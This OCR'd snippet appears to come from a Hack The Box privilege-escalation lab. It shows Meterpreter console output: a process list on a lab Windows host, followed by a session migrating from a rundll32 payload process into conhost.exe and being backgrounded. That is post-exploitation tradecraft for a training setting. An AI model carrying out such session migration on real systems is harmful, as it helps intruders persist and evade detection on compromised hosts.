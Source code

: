 ```r
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```
